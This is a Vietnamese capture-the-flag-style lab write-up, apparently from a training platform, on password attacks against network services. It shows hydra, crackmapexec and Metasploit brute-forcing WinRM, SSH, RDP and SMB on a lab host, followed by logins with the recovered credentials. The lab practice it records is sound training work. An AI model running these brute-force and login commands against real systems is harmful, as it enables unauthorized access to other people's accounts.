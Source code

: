 <h1>Password Attacks: Network Services</h1>

![image](https://github.com/user-attachments/assets/a4f0bbce-5a49-4c50-9124-ba0733458f1c)

![image](https://github.com/user-attachments/assets/162084ec-59a1-4703-a8af-d94da14fad11)

![image](https://github.com/user-attachments/assets/260a06c9-3de9-49a8-a01c-e26be94cdfa8)

Chạy `crackmapexec winrm 10.129.167.69 -u username.list -p password.list` lấy user:pass từ 2 file và tấn công vét cạn:

![image](https://github.com/user-attachments/assets/f40f909e-5bec-42b9-9db6-ec5d4f217948)

Tôi có được john:november và chạy `evil-winrm -i 10.129.167.69 -u john -p november` để vào và tìm thấy flag trong Desktop

![image](https://github.com/user-attachments/assets/145f0f98-cc82-4842-9238-4a04e13fb867)

Dùng `hydra -L username.list -P password.list ssh://10.129.167.69` để tấn công vét cạn ssh:

![image](https://github.com/user-attachments/assets/d01dc777-4cf6-44e4-813c-ab22b405ea83)

Tôi có được dennis:rockstar, ssh vào và tìm thấy flag trong Desktop:

![image](https://github.com/user-attachments/assets/56fa5227-3033-4002-8c6c-c9d5a1db04cc)


Do tôi thấy có các user ở đây nên nghĩ chắc là 2 câu dưới cũng chỉ lanh quanh user này thôi nên tạo hẳn user.list để chứa mấy cái user này cho đẩy nhanh thời gian làm bài:

![image](https://github.com/user-attachments/assets/6f9a261b-a5a0-46ef-9b71-64b88c8980cf)

![image](https://github.com/user-attachments/assets/7791c747-33e3-4773-bb78-c97ff7df3c71)

![image](https://github.com/user-attachments/assets/e37b4403-0b97-4095-97b8-0019950f4561)

Chạy `hydra -L username.list -P password.list rdp://10.129.167.69` để vét cạn dịch vụ rdp:

![image](https://github.com/user-attachments/assets/a114d8b8-39a9-4f76-830e-c2d386483e6e)

Do lâu quá nên tôi tiện thể làm luôn smb `hydra -L user.list -P password.list smb://10.129.167.69`:

![image](https://github.com/user-attachments/assets/30442210-f5b2-4653-91fa-60f50fb122bb)

Cơ mà nó bị invalid và tra google thì ra như này [here](https://bugs.kali.org/view.php?id=6709):

![image](https://github.com/user-attachments/assets/ec4ebe92-1c3a-452a-9e1d-a5a5824d4b27)

Vậy nên tôi sử dụng msfconsole

![image](https://github.com/user-attachments/assets/522162d8-0f80-4aa1-8a1a-622123d2d8c3)

![image](https://github.com/user-attachments/assets/8bf8b30b-ca0e-4c16-b74a-2303c4883de3)

Có đến hẳn 2 cái luôn cassie:12345678910 và chris:789456123, thử với cassie:12345678910 thì ra flag:

![image](https://github.com/user-attachments/assets/ea6f50d0-7a32-4e1e-94ee-873caab957b9)

Với chris:789456123 thì vẫn như cái kia:

![image](https://github.com/user-attachments/assets/babb705d-4c63-4f46-9eb4-2b374083f66c)

Trong lúc đợi rdp thì tôi thử chris:789456123 vào rdp bằng `xfreerdp /u:'chris' /p:'789456123' /v:10.129.167.69` và ngạc nhiên chưa, nó hoạt động:

![image](https://github.com/user-attachments/assets/01670950-2b50-4f40-b864-4cd138de5e0e)

Lúc sao là ra rdp chris:789456123 bằng hydra:

![image](https://github.com/user-attachments/assets/f6503a4e-9a8d-4389-a35a-bda309f7d0ae)



